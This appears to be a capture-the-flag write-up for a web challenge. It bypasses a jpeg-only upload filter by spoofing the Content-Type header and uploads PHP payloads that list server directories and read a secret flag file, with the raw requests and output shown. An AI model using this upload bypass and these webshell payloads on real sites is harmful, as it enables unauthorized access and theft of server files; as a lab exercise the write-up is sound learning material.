 # An image gallery

1. First, lets go through the website.
2. Then, we can see the information in the home page : You can upload pictures with the upload formular. Pictures are then stored in the suggestions directory. 
3. If you try to visit the "suggestions directory", you will find out that you are forbiddened. However, you can still visit the picture part of it. For example, upload a jpeg file named 123.jpeg, and you are able to visit the picture as the url : http://gallery.hax.w3challs.com/suggestions/123
4. So, there is something come up in my mind, what if we could upload some php code that allows us to visit the directory so that we can find the flag. (The goal is to find a directory that store the flag) However, there is warning in the home page : For security reasons, only jpeg files are accepted.
5. As you can see, we cannot upload php file, but what if we can bypass it? Here is some [information](https://www.hackingarticles.in/5-ways-file-upload-vulnerability-exploitation/) that I find in the web.
6. After we know some ways to bypass it, we need a tool : burp suite to help us. 
7. Now, we have to think of some php code that can help us. Here is my payload : 
    ```php
    <php?
        var_dump(scandir('..'));
    ?>
    ```
    After doing so, we named a file "upload.php" and send it. Here is some information in burp suite : 
    ```
    Content-Disposition: form-data; name="upload_file"; filename="upload.php"
    Content-Type: text/php

    <?php
        var_dump(scandir('..'));
    ?>
    ```
    I use the method under "Content-Type file Upload" in the website (of course you can anothor method to reach the goal), so I change the payload and send it : 
    ```
    Content-Disposition: form-data; name="upload_file"; filename="upload.php"
    Content-Type: image/jpeg

    <?php
        var_dump(scandir('..'));
    ?>
    ```
    And get the feedback : The file upload.php has been uploaded correctly..
8. Next step now is visit http://gallery.hax.w3challs.com/suggestions/upload.php and I get the information below : 
    ```php
    array(11) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(9) "basic.css" [3]=> string(3) "css" [4]=> string(6) "images" [5]=> string(9) "index.php" [6]=> string(2) "js" [7]=> string(4) "lang" [8]=> string(8) "lang.php" [9]=> string(14) "omg_secret_wut" [10]=> string(11) "suggestions" } 
    ```
    So, there is a very "interesting" file named "omg_secret_wut", I decide to take a look. 
    ```php
    <?php
        var_dump(scandir('../omg_secret_wut'));
    ?>
    ```
    Then I get : 
    ```php
    array(3) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(4) "flag" } 
    ```
9. As you can see, there is the flag. Here is my payload to get it : 
    ```php
    <?php
        var_dump(file_get_contents('../omg_secret_wut/flag'));
    ?>
    ```
10. Here is the flag : W3C{W3lc0m3_t0_y0u_w3b_sh3ll}
